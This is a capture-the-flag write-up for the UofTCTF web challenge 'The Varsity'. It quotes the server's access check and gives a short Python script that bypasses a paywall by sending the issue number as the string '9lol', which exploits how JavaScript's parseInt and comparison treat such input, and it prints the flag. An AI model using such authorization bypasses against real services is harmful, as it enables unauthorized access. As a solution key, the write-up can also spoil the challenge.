

# The Varsity 

### Challenge:
##### Come read our newspaper! Be sure to subscribe if you want access to the entire catalogue, including the latest issue.
##### Author: SteakEnthusiast

##### Links: [https://uoftctf-the-varsity.chals.io](https://uoftctf-the-varsity.chals.io)

### Solution:

The challenge is a portal where we can register an account to read articles, however to read specific articles, such as the one that contains the flag we need a premium subscription.
To get said premium subscription we need to input a voucher while registering however looking at the code it's pretty clear this isn't a viable strategy:

```js
const subscription = voucher === FLAG + JWT_SECRET ? "premium" : "guest";
```

Looking at the code that handles the viewing of the article we can find something interesting:

```js
if (decoded.subscription !== "premium" && issue >= 9) {
        return res
          .status(403)
          .json({ message: "Please subscribe to access this issue" });
      }

      issue = parseInt(issue);

      if (Number.isNaN(issue) || issue > articles.length - 1) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      return res.json(articles[issue]);
```

The article we want to view has index 9, so we need to find a way to make ```parseInt()``` return 9 without triggering this condition ```if (decoded.subscription !== "premium" && issue >= 9)```.

By playing around i managed to get this working:

```py
import requests

url = "https://uoftctf-the-varsity.chals.io/"

s = requests.session()

r = s.post(url+"register", json={"username":"john"})

r = s.post(url+"article", json={"issue":"9lol"})

print(r.text)
#uoftctf{w31rd_b3h4v10r_0f_parseInt()!}
```

No clue why it works but hey a flag is a flag.

Flag: ```uoftctf{w31rd_b3h4v10r_0f_parseInt()!}```